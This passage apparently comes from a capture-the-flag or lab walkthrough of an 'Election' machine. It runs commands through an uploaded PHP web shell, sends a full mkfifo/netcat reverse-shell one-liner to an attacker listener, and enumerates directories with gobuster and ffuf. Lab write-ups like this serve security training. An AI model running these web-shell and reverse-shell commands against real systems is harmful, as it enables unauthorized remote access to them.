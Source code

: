 ```bash
$ curl -s http://192.168.171.211/shell.php?cmd=whoami
www-data
```

I can now get a shell with this command:

```bash
$ curl -s -G http://192.168.171.211/shell.php --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.5 443 >/tmp/f'
```

### Shell as Love via SSH

Fuzzing the `election` endpoint, I find `admin`, and fuzzing a bit more after that, I find `logs`:

```bash
$ gobuster dir -u http://192.168.171.211/election/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.171.211/election/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/15 11:17:32 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/admin                (Status: 301) [Size: 327] [--> http://192.168.171.211/election/admin/]
/data                 (Status: 301) [Size: 326] [--> http://192.168.171.211/election/data/]
/index.php            (Status: 200) [Size: 7003]
/js                   (Status: 301) [Size: 324] [--> http://192.168.171.211/election/js/]
/languages            (Status: 301) [Size: 331] [--> http://192.168.171.211/election/languages/]
/lib                  (Status: 301) [Size: 325] [--> http://192.168.171.211/election/lib/]
/media                (Status: 301) [Size: 327] [--> http://192.168.171.211/election/media/]
/themes               (Status: 301) [Size: 328] [--> http://192.168.171.211/election/themes/]
Progress: 4595 / 4615 (99.57%)

$ ffuf -u http://192.168.216.211/election/admin/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.216.211/election/admin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
```